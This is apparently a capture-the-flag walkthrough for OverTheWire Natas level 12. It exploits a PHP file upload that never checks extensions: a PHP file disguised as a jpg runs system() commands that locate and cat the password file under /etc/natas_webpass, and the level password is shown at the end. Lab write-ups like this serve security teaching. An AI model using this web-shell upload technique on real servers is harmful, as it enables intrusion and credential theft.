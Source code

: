 `Link` : `https://overthewire.org/wargames/natas/natas12.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟏𝟏 - 𝐋𝐞𝐯𝐞𝐥 𝟏𝟐
## 𝐆𝐢𝐯𝐞𝐧 

- Username: natas12
- URL:      `http://natas12.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit:      `http://natas12.natas.labs.overthewire.org`
- Note that there is a file upload functionality
- `view pagesource`

```
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?> 
```

- Notice that there is no check on file extension: ` $path = $dir."/".genRandomString().".".$ext;`
- Now let's check if we can upload php shell? Make a `file.jpg` with this content:
```
<?php
	echo "php upload possible!" 
?>
```
- Intercept the request and change the file extension to php.
- Open that php file, you will see `php upload possible`
- Now, we need to find password file for `natas13`

```


<?php
	system('find / -name natas13')
?>
```
![image](https://user-images.githubusercontent.com/68887544/148888181-a3339e02-3ba4-42aa-b548-460e96fcd3c4.png)

- Let's `cat password`

```
<?php
	// #1 echo "php upload possible!" 
	// #2 system('find / -name natas13')
	// #3 exploit
	system('cat /etc/natas_webpass/natas13')
?>
```

![image](https://user-images.githubusercontent.com/68887544/148888309-6e4e07f9-3339-43bc-a17c-0542b3e29ad7.png)

- `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`
